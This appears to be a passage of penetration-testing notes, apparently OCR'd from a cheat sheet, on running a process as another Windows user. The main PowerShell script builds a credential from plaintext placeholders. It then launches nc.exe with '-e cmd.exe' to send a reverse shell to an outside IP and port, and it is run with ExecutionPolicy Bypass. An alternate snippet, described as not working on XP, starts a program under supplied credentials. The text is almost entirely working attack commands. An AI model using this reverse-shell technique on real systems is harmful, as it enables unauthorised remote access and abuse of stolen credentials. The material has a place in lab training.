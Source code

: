 ```powershell
$username = 'USERNAME_HERE'
$password = 'PASSWORD_HERE'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nv","192.168.119.216","8001","-e","cmd.exe") -WorkingDirectory C:\Users\Public
```

Then run the script

```powershell
powershell -ExecutionPolicy Bypass -File C:\Users\Public\runas.ps1
```

<u>ALTERNATE VERSION - MAY NOT WORK</u>

I found this on another site, but it wouldn't work when I tried it on XP

```powershell
$secpasswd = ConvertTo-SecureString "THEPASSWORD" -AsPlainText -Force 
$mycreds = New-Object System.Management.Automation.PSCredential ("THEUSERNAME", $secpasswd)
$computer = "THEHOSTNAME"
[System.Diagnostics.Process]::Start("C:\THEPROGRAM.exe","", $mycreds.Username, $mycreds.Password, $computer)
```
